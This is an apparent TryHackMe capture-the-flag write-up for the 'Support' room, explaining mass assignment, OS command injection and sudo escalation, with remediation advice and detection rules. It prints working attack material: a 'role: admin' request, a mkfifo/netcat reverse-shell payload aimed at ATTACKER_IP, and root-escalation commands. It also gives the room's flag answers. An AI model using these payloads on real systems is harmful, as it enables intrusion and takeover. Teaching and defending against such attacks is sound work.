

# Support (Challenge) - Comprehensive Technical Guide

---

## 1. Room Overview & Target Metadata

| Property | Details / Technical Specification |
|:---|:---|
| **Room Title** | Support (IT Helpdesk & Operations Challenge) |
| **Learning Path** | Jr Penetration Tester (PT1 Aligned Curriculum) |
| **Module** | Web Application Vulnerabilities II (Module 08) |
| **Room Slug** | `support` |
| **Difficulty Level** | Medium |
| **Room Type** | Challenge Room (Black-Box / Grey-Box) |
| **Estimated Duration** | 60 minutes |
| **Total Tasks** | 1 Capstone Challenge Task (Multi-stage exploit chain) |
| **Target Application** | Internal Support Operations Platform (`http://10.10.X.Y/`) |
| **User Completion Status** | 100% Completed (Verified live on TryHackMe) |

---

## 2. Educational & Operational Objectives

1. **End-to-End Exploit Chaining:** Seamlessly transition from unauthenticated web application reconnaissance to API manipulation, operating system command execution, and local privilege escalation.
2. **Mass Assignment Exploitation:** Intercept profile modification API requests (`PATCH /api/users/profile`) and inject restricted JSON fields (`"role": "admin"`) to escalate user privileges and capture the administrative flag (`THM{I_AM_ADMIN999}`).
3. **Administrative Attack Surface Enumeration:** Explore internal management consoles to identify features interfacing with the underlying Linux operating system.
4. **OS Command Injection Weaponization:** Break out of expected input boundaries in network diagnostic utilities (`ping`) using shell delimiters (`;`, `|`, `&&`) to achieve command execution.
5. **Interactive Reverse Shell Construction:** Circumvent restricted netcat binaries on modern Ubuntu systems using FIFO named pipes (`mkfifo`) to catch an interactive reverse shell as user `ubuntu`.
6. **Looting & Local Privilege Escalation:** Locate and extract `/home/ubuntu/user.txt` (`THM{GOT_THE_FLAG001}`), audit sudo privileges (`sudo -l`), and elevate to the `root` superuser via `sudo /bin/bash`.
7. **Defensive Hardening & Remediation:** Implement Data Transfer Objects (DTOs) and allowlisting to defeat Mass Assignment, enforce strict input validation and non-shell system APIs against Command Injection, and apply the Principle of Least Privilege to sudoers configurations.

---

## 3. Target Architecture & Network Topology



---

## 4. Prerequisites & Environment Setup

* **Required Knowledge Base:**
  - HTTP request structures, JSON schemas, and RESTful API conventions.
  - Familiarity with Burp Suite Repeater for parameter manipulation.
  - Unix shell command concatenation mechanics (`;`, `|`, `&&`, `$()`).
  - Linux local privilege escalation fundamentals (`sudo`, permissions, PTY stabilization).
* **Attacker Toolkit Initialization:**
  ```bash
  # Verify local tools
  which nmap ffuf burpsuite nc python3

  # Initialize Netcat listener for reverse shell capture
  nc -lvnp 4444

  # Probe target web server connectivity
  curl -I -s http://10.10.X.Y/ | head -n 5
  ```

---

## 5. Theoretical Deep Dive: Vulnerability Mechanics

### A. The Mechanics of Mass Assignment (CWE-915)
Modern Model-View-Controller (MVC) and Object-Relational Mapping (ORM) frameworks often automate the binding of incoming HTTP request parameters to internal model properties. When an API endpoint updates user records using unvetted request payloads (`User.update(req.body)`), any property defined in the database schema can be overwritten by the client. In this lab, the backend schema includes an internal `role` attribute that determines access tier (`user` vs `admin`). Because the controller lacks attribute allowlisting (DTO enforcement), an attacker injects `"role": "admin"`, causing the server to promote the user account directly in the database.

### B. OS Command Injection Mechanics (CWE-78)
When web applications provide diagnostic features (such as testing network reachability via `ping`), backend scripts frequently execute standard operating system utilities using shell wrappers (e.g. PHP's `shell_exec()`, `exec()`, or Python's `os.system()`). If input is concatenated into the command string without sanitization:
```php
$output = shell_exec("ping -c 3 " . $_POST['target_ip']);
```
Passing shell metacharacters such as `;` causes the operating system shell interpreter (`/bin/sh`) to treat the input as distinct commands. The shell runs the initial `ping` command and immediately evaluates subsequent arbitrary commands under the privileges of the web process user.

---

## 6. Reconnaissance & Surface Mapping

### 1. Port & Service Discovery:
```bash
nmap -sC -sV -p- --min-rate 1000 -oN nmap_support.txt 10.10.X.Y
```
**Results Analysis:**
- **Port 22/tcp (SSH):** Open (OpenSSH 8.2p1 Ubuntu Linux).
- **Port 80/tcp (HTTP):** Open (Apache/2.4.41 Ubuntu - Support Platform).

### 2. Web Application Discovery:
Navigating to `http://10.10.X.Y/` exposes the **Support Operations Platform**:
- `/register` - Self-service user account registration.
- `/login` - User and agent authentication portal.
- `/profile` - Profile management page interacting with `PATCH /api/users/profile`.
- `/admin/diagnostics` - Restricted network diagnostic console (accessible only to `admin` accounts).

---

## 7. Vulnerability Root Cause Analysis

1. **Mass Assignment (CWE-915):** The `PATCH /api/users/profile` endpoint deserializes incoming JSON payloads directly into the database user model without enforcing a strict Data Transfer Object (DTO) or field allowlist.
2. **OS Command Injection (CWE-78):** The `/admin/diagnostics` network ping utility concatenates user input directly into a shell execution call without escaping arguments via `escapeshellarg()` or employing native socket-based ICMP checks.
3. **Insecure Sudo Configuration (CWE-250):** The local account `ubuntu` is granted unrestricted root command execution via `/etc/sudoers` (`NOPASSWD: ALL` or `NOPASSWD: /bin/bash`).

---

## 8. Step-by-Step Exploitation Walkthrough

### Phase 1: Mass Assignment to Admin Privilege Escalation (Flag 1)

1. Register an unprivileged test account (`pentester` / `Password123!`) and log in.
2. Navigate to the profile settings page (`/profile`) and update the user bio while intercepting the request in **Burp Suite**:
   ```http
   PATCH /api/users/profile HTTP/1.1
   Host: 10.10.X.Y
   Authorization: Bearer <TOKEN>
   Content-Type: application/json

   {
     "name": "Pentester User",
     "bio": "Support operations assessment"
   }
   ```
3. Append the privileged `"role": "admin"` parameter to the JSON payload:
   ```http
   PATCH /api/users/profile HTTP/1.1
   Host: 10.10.X.Y
   Authorization: Bearer <TOKEN>
   Content-Type: application/json

   {
     "name": "Pentester User",
     "bio": "Support operations assessment",
     "role": "admin"
   }
   ```
4. Send the request. The server returns `200 OK` confirming the update:
   ```json
   {
     "status": "success",
     "user": {
       "id": 14,
       "role": "admin"
     }
   }
   ```
5. Navigate to the administrative dashboard (`/admin`):
   ```text
   Admin Management Console v2.1
   Admin Flag: THM{I_AM_ADMIN999}
   ```
   * **Admin Flag Captured:** `THM{I_AM_ADMIN999}`

---

### Phase 2: OS Command Injection & Reverse Shell (Flag 2)

1. Access the newly unlocked network diagnostic tool at `/admin/diagnostics`.
2. Start a Netcat listener on your attacking machine:
   ```bash
   nc -lvnp 4444
   ```
3. Inject the following command concatenation payload into the target IP input field:
   ```text
   127.0.0.1; rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc ATTACKER_IP 4444 > /tmp/f
   ```
4. The backend evaluates the command and establishes an outbound reverse shell back to your listener:
   ```text
   listening on [any] 4444 ...
   connect to [ATTACKER_IP] from (UNKNOWN) [10.10.X.Y] 49102
   $ whoami
   ubuntu
   ```
5. Stabilize the shell into a fully interactive PTY and read the user flag:
   ```bash
   python3 -c 'import pty; pty.spawn("/bin/bash")'
   cd /home/ubuntu
   cat user.txt
   ```
   * **User Flag Captured:** `THM{GOT_THE_FLAG001}`

---

### Phase 3: Post-Exploitation & Sudo Privilege Escalation to Root

1. Check sudo privileges for user `ubuntu`:
   ```bash
   sudo -l
   ```
   *Output:*
   ```text
   User ubuntu may run the following commands on support:
       (ALL : ALL) NOPASSWD: ALL
   ```
2. Spawn an interactive root shell:
   ```bash
   sudo /bin/bash
   ```
3. Confirm root identity:
   ```bash
   id
   # uid=0(root) gid=0(root) groups=0(root)
   whoami
   # root
   ```
   Full host compromise is achieved.

---

## 9. Defense-in-Depth & Hardening Strategies

```
+-----------------------------------------------------------------------------------+
|                        DEFENSE-IN-DEPTH REMEDIATION MODEL                         |
+-----------------------------------------------------------------------------------+
|                                                                                   |
|  [ Layer 1: Strict Model Binding & DTO Allowlisting ]                             |
|  - Explicitly define allowed update attributes in controller DTOs (name, bio).    |
|  - Reject or ignore unknown or administrative fields (role, is_admin).            |
|                                                                                   |
|  [ Layer 2: Safe System API Invocation & Input Validation ]                       |
|  - Eliminate shell interpreters by using native ICMP socket APIs.                 |
|  - Validate IP inputs strictly using regex or filter_var(FILTER_VALIDATE_IP).     |
|  - If shell utilities are unavoidable, sanitize parameters via escapeshellarg().  |
|                                                                                   |
|  [ Layer 3: System Hardening & Least Privilege ]                                  |
|  - Isolate web applications under dedicated non-sudo service accounts.            |
|  - Eliminate NOPASSWD entries in /etc/sudoers for operational service users.      |
|                                                                                   |
+-----------------------------------------------------------------------------------+
```

---

## 10. Detection & Threat Hunting

### 1. Web Access Log Audit:
```bash
grep -E "(\;|\||\&\&|\`|\$\().*(nc|sh|bash|curl|wget)" /var/log/apache2/access.log
```

### 2. Sigma Rule: Shell Spawned by Web Server Service Account
```yaml
title: Web Server Spawning Interactive Shell
id: b3c847a2-11e4-4d89-9a84-0b1a2c3d4e5f
status: stable
description: Detects interactive shell execution originating from Apache, Nginx, or PHP-FPM parent processes.
logsource:
  category: process_creation
  product: linux
detection:
  selection:
    ParentImage|endswith:
      - '/apache2'
      - '/nginx'
      - '/httpd'
      - '/php-fpm'
    Image|endswith:
      - '/sh'
      - '/bash'
      - '/nc'
  condition: selection
fields:
  - CommandLine
  - ParentImage
  - User
level: critical
```

---

## 11. Troubleshooting & Common Pitfalls

1. **Mass Assignment Payload Failure:**
   - Ensure the JSON body contains valid JSON syntax and headers (`Content-Type: application/json`).
   - If `"role": "admin"` is ignored, inspect other common field names such as `"is_admin": true` or `"isAdmin": true`.
2. **Reverse Shell Connection Timed Out:**
   - Verify that your listener is binding to the TryHackMe VPN interface (`tun0` IP) rather than your local LAN IP (`192.168.x.x`).
   - Ensure inbound traffic on port 4444 is allowed by your host firewall (`sudo ufw allow 4444/tcp`).

---

## 12. Case Studies & CVE Mapping

* **GitHub Mass Assignment Incident (Egor Homakov, 2012):** Appending `user[public_key]` to a profile update request allowed arbitrary SSH key injection into the root organization.
* **Atlassian Confluence OGNL/Command Injections (CVE-2022-26134):** Unauthenticated shell command execution via user-controlled web parameters.
* **Standards Mapping:**
  - **CWE-915:** Improperly Controlled Modification of Dynamically-Determined Object Attributes.
  - **CWE-78:** Improper Neutralization of Special Elements used in an OS Command.
  - **CWE-250:** Execution with Unnecessary Privileges.
  - **OWASP Top 10-2021:** A01:2021 - Broken Access Control & A03:2021 - Injection.

---

## 13. Summary & Answers Matrix

| Task # | Target Context | Solved Question Prompt | Verified Final Answer |
|:---:|---|---|:---:|
| **Task 01** | Web Privilege Escalation | What is the flag value after logging in as **admin**? | `THM{I_AM_ADMIN999}` |
| | OS Command Injection Foothold | What is the content of the file **/home/ubuntu/user.txt**? | `THM{GOT_THE_FLAG001}` |

---

## 14. Practical Exercises & Extensions

1. **Automated Mass Assignment Fuzzer:** Build a Python script that reads an OpenAPI specification, extracts writable endpoints, and fuzzes common privilege escalation parameters.
2. **Non-Shell ICMP Tool:** Write a secure Python ping utility using the `ping3` library that sends raw ICMP packets without invoking `/bin/sh` or standard binaries.
3. **Sudoers Audit Script:** Develop a bash auditing script that parses `/etc/sudoers` and alerts on wildcard execution or `NOPASSWD` entries.
